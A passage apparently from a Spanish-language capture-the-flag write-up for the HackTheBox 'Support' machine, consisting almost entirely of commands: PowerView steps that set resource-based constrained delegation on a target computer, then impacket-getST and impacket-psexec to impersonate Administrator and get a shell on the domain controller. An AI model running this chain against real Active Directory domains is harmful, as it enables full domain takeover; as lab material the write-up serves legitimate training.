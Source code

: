 ```bash
$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$ComputerSid)"
```

```bash
$SDBytes = New-Object byte[] ($SD.BinaryLength)
```

```bash
$SD.GetBinaryForm($SDBytes, 0)
```

```bash
Get-DomainComputer $targetComputer | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes}
```

```bash
Get-DomainComputer $targetComputer -Properties 'msds-allowedtoactonbehalfofotheridentity'
```

```bash
impacket-getST -spn cifs/dc.support.htb -impersonate Administrator -dc-ip 10.10.11.174 support.htb/SERVICEA$:123456
```

```bash
export KRB5CCNAME=Administrator.ccache
```

```bash
impacket-psexec -k dc.support.htb
```
y wuala... seremos usuarios Administrator.



